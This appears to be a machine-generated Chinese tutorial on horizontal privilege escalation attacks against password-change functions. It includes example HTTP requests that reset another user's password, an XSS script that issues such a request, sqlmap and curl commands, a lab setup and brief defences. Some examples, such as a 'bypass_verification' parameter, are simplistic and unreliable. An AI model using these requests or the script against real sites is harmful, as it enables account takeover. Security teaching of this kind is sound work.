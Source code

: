 # 平行越权密码修改的攻击技术

## 1. 技术原理解析

### 1.1 平行越权概述
平行越权（Horizontal Privilege Escalation）是指攻击者通过某种手段，获得与自身权限相同的其他用户的访问权限。在密码修改场景中，平行越权攻击通常表现为攻击者能够修改其他用户的密码，从而获取其账户的控制权。

### 1.2 底层实现机制
平行越权密码修改的漏洞通常源于应用程序在身份验证和授权机制上的缺陷。常见的漏洞包括：

- **IDOR（Insecure Direct Object References）**：应用程序直接使用用户提供的参数（如用户ID）来访问资源，而没有进行充分的权限验证。
- **会话管理缺陷**：应用程序未能正确管理用户会话，导致攻击者可以劫持其他用户的会话。
- **逻辑缺陷**：应用程序在处理密码修改请求时，未能正确验证请求的合法性，导致攻击者可以绕过正常的验证流程。

## 2. 常见攻击手法和利用方式

### 2.1 IDOR攻击
IDOR攻击是平行越权密码修改中最常见的手法。攻击者通过修改请求中的用户ID参数，直接访问其他用户的密码修改接口。

**攻击步骤：**
1. **发现漏洞**：通过抓包工具（如Burp Suite）分析密码修改请求，寻找包含用户ID的参数。
2. **修改参数**：将请求中的用户ID参数修改为目标用户的ID。
3. **发送请求**：将修改后的请求发送到服务器，观察响应。

**示例代码：**
```http
POST /change_password HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

user_id=123&new_password=attacker123
```

### 2.2 会话劫持
会话劫持是指攻击者通过某种手段获取其他用户的会话ID，从而冒充该用户进行密码修改。

**攻击步骤：**
1. **获取会话ID**：通过XSS漏洞、网络嗅探等手段获取目标用户的会话ID。
2. **伪造请求**：使用获取到的会话ID伪造密码修改请求。
3. **发送请求**：将伪造的请求发送到服务器，完成密码修改。

**示例代码：**
```http
POST /change_password HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=stolen_session_id

new_password=attacker123
```

### 2.3 逻辑缺陷利用
逻辑缺陷是指应用程序在处理密码修改请求时，未能正确验证请求的合法性，导致攻击者可以绕过正常的验证流程。

**攻击步骤：**
1. **发现缺陷**：通过分析密码修改流程，寻找逻辑缺陷。
2. **构造请求**：构造绕过验证的密码修改请求。
3. **发送请求**：将构造的请求发送到服务器，完成密码修改。

**示例代码：**
```http
POST /change_password HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

user_id=123&new_password=attacker123&bypass_verification=true
```

## 3. 高级利用技巧

### 3.1 自动化工具使用
使用自动化工具可以大大提高攻击效率。常见的工具包括：

- **Burp Suite**：用于抓包、修改请求、自动化测试。
- **OWASP ZAP**：开源的Web应用安全扫描工具，支持自动化测试。
- **SQLMap**：用于自动化SQL注入测试，有时可用于发现IDOR漏洞。

**示例命令：**
```bash
sqlmap -u "http://example.com/change_password?user_id=123" --data="new_password=attacker123" --cookie="session=abc123" --level=5 --risk=3
```

### 3.2 组合攻击
组合攻击是指将多种攻击手法结合起来，以提高攻击成功率。例如，结合XSS和IDOR漏洞，先通过XSS获取会话ID，再利用IDOR漏洞修改密码。

**攻击步骤：**
1. **发现XSS漏洞**：通过XSS漏洞获取目标用户的会话ID。
2. **利用IDOR漏洞**：使用获取到的会话ID和IDOR漏洞修改密码。

**示例代码：**
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://example.com/change_password", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;
xhr.send("user_id=123&new_password=attacker123");
</script>
```

## 4. 实验环境搭建指南

### 4.1 环境准备
为了进行平行越权密码修改的攻击实验，需要搭建一个包含漏洞的Web应用程序。可以使用以下工具：

- **DVWA（Damn Vulnerable Web Application）**：一个专门用于安全测试的Web应用程序，包含多种漏洞。
- **OWASP Juice Shop**：一个开源的Web应用程序，专门用于安全测试。

**安装步骤：**
1. **安装Docker**：确保系统上已安装Docker。
2. **拉取镜像**：使用Docker拉取DVWA或OWASP Juice Shop的镜像。
3. **启动容器**：启动容器并访问Web应用程序。

**示例命令：**
```bash
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```

### 4.2 实验步骤
1. **登录应用程序**：使用默认账户登录DVWA或OWASP Juice Shop。
2. **发现漏洞**：通过抓包工具分析密码修改请求，寻找漏洞。
3. **实施攻击**：根据发现的漏洞，实施平行越权密码修改攻击。
4. **验证结果**：验证是否成功修改了目标用户的密码。

**示例命令：**
```bash
curl -X POST "http://localhost/change_password" -d "user_id=2&new_password=attacker123" --cookie "session=abc123"
```

## 5. 防御措施

### 5.1 输入验证
对所有用户输入进行严格的验证，确保参数合法且符合预期。

### 5.2 权限验证
在处理敏感操作（如密码修改）时，确保用户具有相应的权限。

### 5.3 会话管理
使用安全的会话管理机制，防止会话劫持。

### 5.4 日志监控
记录所有敏感操作的日志，及时发现和响应异常行为。

## 结论
平行越权密码修改是一种常见的Web安全漏洞，攻击者可以通过IDOR、会话劫持、逻辑缺陷等手段获取其他用户的账户控制权。通过深入理解漏洞原理、掌握攻击手法、搭建实验环境，可以有效提升Web应用程序的安全性。同时，采取严格的防御措施，可以有效防止此类攻击的发生。

---

*文档生成时间: 2025-03-12 17:18:54*
